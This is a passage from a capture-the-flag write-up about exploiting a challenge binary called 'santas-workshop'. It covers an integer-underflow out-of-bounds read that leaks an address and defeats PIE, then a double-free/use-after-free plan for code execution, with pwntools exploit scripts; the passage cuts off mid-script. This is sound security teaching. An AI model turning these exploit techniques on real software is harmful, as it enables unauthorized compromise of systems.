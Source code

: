 ```python 
(0x88 - 0x10) // 0x1e
```

This outputs `4` but the computation also only takes the lower 255 bits of the number (`& 0xff`) therefore, we can take
`4 - 256 = -252` as our input. Just to verify that our computation is correct:

```python
hex((-252 & 0xff) * 0x1e + 0x10)
```

and it prints `0x88` as expected. Now we can use this to get the base address of our binary:

```python
from pwn import *

exe = context.binary = ELF('santas-workshop')

io = process([exe.path])
io.recvuntil(b'>')

with log.progress("Performing out of bounds read to leak address on the stack"):
    io.sendline(b'1')
    io.recvline()

    # Sending a negative number provokes an underflow
    # This allows us to send a number greater than 3
    io.sendline("-252".encode())
    res = io.recvline()[:-1]
    res = u64(res.ljust(8, b'\x00'))
    exe.address = res - (exe.sym['menu'] + 91)
    log.info(f"Pie base: {hex(exe.address)}")
```

### Writing the address

Earlier, we have seen that if we call `steal` twice, `free` would be called twice on the same address. This indicates,
that we might be able to trigger a use after free (UAF) vulnerability. There's two `malloc`s in our code. One occurs
during initialization, which we can't control, and one in the `tell_deed` function. If we `malloc` twice with the same
size the previously allocated memory will be reused and we can overwrite the content at `workshop + 0x28` to get
arbitrary code execution. 

### The exploit

Now that we have all the pieces together, we can run the exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('santas-workshop')

io = process([exe.path])
io.recvuntil(b'>')

with log.progress("Performing out of bounds read to leak address on the stack"):
    io.sendline(b'1')
    io.recvline()

    # Sending a negative number provokes an underflow
    # This allows us to send a number greater than 3 (This is not allowed directly)
    io.sendline("-252".encode())
```